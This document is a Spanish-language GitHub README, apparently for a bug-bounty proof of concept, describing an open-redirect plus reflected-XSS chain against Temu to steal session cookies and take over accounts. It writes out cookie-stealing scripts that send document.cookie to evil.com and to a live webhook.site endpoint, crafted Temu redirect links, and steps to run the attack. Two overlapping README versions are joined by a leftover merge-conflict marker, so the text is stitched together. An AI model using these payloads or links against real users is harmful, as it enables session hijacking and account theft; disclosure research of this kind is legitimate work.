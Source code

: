
## 📌 Descripción del Proyecto

`temu-vuln-hunter-pro` es una prueba de concepto profesional enfocada en demostrar cómo múltiples fallos de seguridad pueden combinarse para obtener un impacto crítico:

- 🧩 **Redirección Abierta (Open Redirect)**
- 💥 **XSS Reflejado**
- 🍪 **Robo de Cookies**
- 👤 **Toma de Cuenta Remota**

Este tipo de ataque encadenado permite que un atacante genere un solo enlace malicioso capaz de redirigir a un usuario a un payload XSS y así capturar su cookie de sesión.

---

## 🧪 Archivos Incluidos

📁 temu-vuln-hunter-pro
├── main.py # Script para automatizar y lanzar el PoC
├── payloads/
│ └── xss-openredirect.html # HTML con payload XSS
├── reports/
│ └── temu_xss_redirect_report.md # Informe profesional del hallazgo
├── screenshots/
│ └── poc1.png # Captura de pantalla del ataque exitoso
└── README.md # Este archivo



---

## 🚀 Ejecución del PoC

Asegúrate de tener Python 3 instalado. Luego:

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro
python3 main.py
Esto abrirá el payload localmente y simulará la explotación para demostrar cómo se roba la cookie del usuario víctima.

💡 Concepto del Ataque
El atacante crea una URL con redirección abierta en Temu:

https://temu.com/redirect?to=https://evil.com/xss-openredirect.html
La víctima hace clic en ese enlace.

El navegador carga el archivo xss-openredirect.html, que contiene un script malicioso:

<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
Se roba la cookie de sesión y se envía al servidor del atacante.

El atacante reutiliza esa cookie y toma control de la cuenta de la víctima.

📸 Evidencia Visual

📄 Informe de Vulnerabilidad
Puedes leer el informe técnico detallado en reports/temu_xss_redirect_report.md, listo para ser enviado a HackerOne, Bugcrowd o el Google VRP en caso de participar en programas de recompensas.

⚠️ Descargo de Responsabilidad
Este proyecto ha sido creado con fines educativos y de responsible disclosure. No está diseñado para ser usado en actividades ilegales. El autor no se responsabiliza por su uso indebido.
Siempre reporta vulnerabilidades de forma ética y profesional.

📬 Contacto
Autor: Jonathan Jiménez

GitHub: @Jonathanjimenez123

Alias HackerOne: jimenez7@wearehackerone.com

Encabezado de Investigación: X-HackerOne-Investigación: jimenez7

⭐ Licencia
MIT © 2025 Jonathan Jiménez
=======
#📄 Contenido de README.md:

# 🛡️ temu-vuln-hunter-pro

> PoC profesional para explotar una vulnerabilidad crítica de Open Redirect + XSS reflejado en **Temu**, demostrando robo de cookies y escalada a toma de cuenta.

---

## 🚨 Descripción

Este proyecto demuestra una cadena de ataque real combinando:

#- ✅ Redirección abierta (`open redirect`)
#- ✅ XSS reflejado desde servidor externo
#- ✅ Robo de cookies vía JavaScript malicioso
#- ✅ Potencial toma de control de cuentas Temu

---

## 🔍 Estructura del Proyecto

temu-vuln-hunter-pro/
├── public/
│ └── poc.html # Página maliciosa que roba cookies
├── server.py # Servidor Flask que simula redirección
├── requirements.txt # Dependencias del proyecto
├── docs/
│ └── report.txt # Informe técnico completo para HackerOne
└── README.md # Este documento

---

## 💥 Payload usado

```html
<script>
fetch("https://webhook.site/32a0eb40-6f73-46d8-ae79-42f7535375e2", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ cookie: document.cookie })
});
</script>
Este payload se ejecuta en poc.html después de que Temu redirige al atacante.

#🧪 Pasos para Reproducir

Visita este enlace:

https://www.temu.com/universal-link?redirect=https://temu-vuln-hunter-pro.vercel.app/redirect?url=https://webhook.site/...
El sistema redirige automáticamente al dominio del atacante.

Se ejecuta código malicioso en poc.html y la cookie se envía a un webhook externo.

#⚙️ Requisitos para correr localmenter

# Clonar el repositorio

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro

# Instalar dependencias

pip install -r requirements.txt

# Ejecutar servidor Flask

python server.py

#📄 Reporte Técnico

Consulta el archivo docs/report.txt para ver el informe completo enviado a HackerOne, incluyendo impacto, PoC y solución sugerida.

#🧠 Autor Jonathan Jiménez
#💻 Alias HackerOne: jimenez7
#✉️  Email: jimenez7@wearehackerone.com

#⚠️ Disclaimer

Este proyecto es una prueba de concepto creada únicamente con fines educativos y de investigación. No está destinado a usarse con fines maliciosos. Todo reporte se ha hecho bajo los lineamientos éticos del programa HackerOne.

>>>>>>> 14b4965 (🚨 PoC crítica: Open Redirect + XSS + Account takeover en Temu)
